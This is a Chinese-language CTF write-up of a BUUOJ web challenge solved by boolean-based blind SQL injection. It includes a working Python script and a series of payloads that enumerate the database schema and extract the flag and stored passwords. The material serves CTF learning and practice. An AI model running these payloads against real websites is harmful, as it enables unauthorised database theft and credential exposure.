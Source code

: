 ![](<./img/Pasted image 20221214145735.png>)

---
首页长这样

![](<./img/Pasted image 20221214145759.png>)

`flag`是不可能白送的，这辈子都是不可能白送的.jpg

点击数字之后访问
```php
/search.php?id=xxx
```
对于无效数字，响应是

![](<./img/Pasted image 20221214145910.png>)

使用布尔盲注来获取数据库信息
```python
import requests
import time
import sys

url = "http://xxx.node4.buuoj.cn:81/search.php"

fmt = '0^(ord(substr((select(group_concat(schema_name))from(information_schema.schemata)),%d,1))>%d)'
false_re = 'ERROR'

for i in range(1, 200):
    l = 0
    r = 127
    while l < r:
        mid = (l + r) // 2
        payload = fmt % (i, mid)
        params = {'id': payload}
        response = requests.get(url, params)
        time.sleep(0.2)
        if response.text.find(false_re) >= 0: # mid >= ans
            r = mid
        else: # mid < ans
            l = mid + 1
    print(chr(l), end='')
    sys.stdout.flush()

```
`buuoj`这个429好严QAQ

![](<./img/Pasted image 20221214150250.png>)

修改`fmt`来爆`geek`数据库的表
```python
fmt = '0^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=\'geek\')),%d,1))>%d)'
```
![](<./img/Pasted image 20221214150608.png>)

再次修改`fmt`来获取两张表的列
```python
fmt = '0^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name=\'F1naI1y\')),%d,1))>%d)'
fmt = '0^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name=\'Flaaaaag\')),%d,1))>%d)'
```
![](<./img/Pasted image 20221214150759.png>)

![](<./img/Pasted image 20221214150844.png>)

胜利近在咫尺
```python
fmt = '0^(ord(substr((select(group_concat(fl4gawsl))from(geek.Flaaaaag)),%d,1))>%d)'
```

![](<./img/Pasted image 20221214151723.png>)

![](<./img/Pasted image 20221214151710.png>)

谢谢有被出题人问候到

被骗了，这个表存的好像是问候语
```python
fmt = '0^(ord(substr((select(group_concat(password))from(geek.F1naI1y)),%d,1))>%d)'
```

![](<./img/Pasted image 20221214152922.png>)

出离愤怒😡

![](<./img/Pasted image 20221214153534.png>)

#Web #SQL注入 #布尔盲注 